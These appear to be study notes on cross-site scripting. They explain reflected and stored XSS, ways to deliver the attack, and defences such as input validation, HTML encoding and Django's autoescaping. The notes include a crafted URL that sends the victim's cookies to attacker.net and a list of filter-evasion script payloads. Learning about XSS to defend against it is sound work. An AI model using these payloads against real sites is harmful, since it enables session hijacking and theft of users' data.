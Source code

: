 This is a client-side attacking technique.

## Reflected XSS

The server that hosts the web aplication takes the parameter from the URL that is requested from the client (user) and simply render the parameter's content back to the user:

```
http://www.example.com/error.html?msg=<script>alert(1);</script>
```

And we say the site is vulnerable to XSS.

An attacker can exploit this vulnerability:

<img src="reflected-xss.png" />

Elaborate: the crafted URL can be something like `http://www.example.com/error.html?msg=<script>var+i=new+Image;+i.src="http://attacker.net/"%2bdocument.cookie;</script>`. The attacker monitors for the traffic to his site `attacker.net` and steal the user's cookie on the `example.com` site.

Question: If the attacker can feed the crafted URL to the user, Why doesn’t he simply host a malicious script on `attacker.net` and feed the user a direct link to this script? This is due to the same-origin policy: on the user's browser, different domains don't interfere with each other. If there were something like `document.cookie` in the malicious script, it would return the user's cookie on attacker.net, not `example.com`.

## Stored XSS

Data submitted by user is stored in the application and then is displayed to other users without being filtered or sanitized appropriately.

2 steps:
- the attacker posts some crafted data containing malicious code that the application stores.
- a victim views a page containing the attacker’s data, and the malicious code is executed when the script is executed in the victim’s browser.

---

Trust relationships that XSS may exploit:
- Browsers trust JavaScript received from a website with the cookies issued by that website.
- If the application employs forms with autocomplete enabled, JavaScript issued by the application can capture any previously entered data that the user’s browser has stored in the autocomplete cache. By instantiating the relevant form, waiting for the browser to autocomplete its contents, and then querying the form field values, the script may be able to steal this data and transmit it to the attacker’s server.

---

Methods to deliver reflected attack:
- Send a forged email.
- The attacker creates his own website with content that induce victims to click.
- Hide the crafted URL in the ads.

---

Finding XSS vulnerabilities: submit a string such as `><script>alert(document.cookie)</script><` as every parameter to every page of the application, and monitor the responses for the appearance of the same string.

If cases are found where the attack string appears unmodified within the response, the application is almost certainly vulnerable to XSS.

To circumvent the application's defensive filters, some of these can be tried:
```
“><script >alert(document.cookie)</script >
“><ScRiPt>alert(document.cookie)</ScRiPt>
“%3e%3cscript%3ealert(document.cookie)%3c/script%3e
“><scr<script>ipt>alert(document.cookie)</scr</script>ipt>
%00“><script>alert(document.cookie)</script>
```

---

The root cause of XSS is that user-controllable data is copied into application responses without adequate validation and sanitization.

To eliminate XSS vulnerabilities:
- first step is to identify every instance withing the application where user-controllable data is being copied into responses.
- validate input:
  - data is not too long
  - data contains only a permitted set of characters
  - data matches a particular regular expression
- validate output: applications can perform HTML encoding of user-controllabel DOM data before insert it into the document:
  ```
  function sanitize(str) {
    var d = document.createElement('div');
    d.appendChild(document.createTextNode(str));
    return d.innerHTML;
  }
  ```
  
---

How does Django protect the site against major XSS attacks?:
- https://docs.djangoproject.com/en/2.1/topics/security/#cross-site-scripting-xss-protection
- https://docs.djangoproject.com/en/2.1/ref/templates/language/#automatic-html-escaping

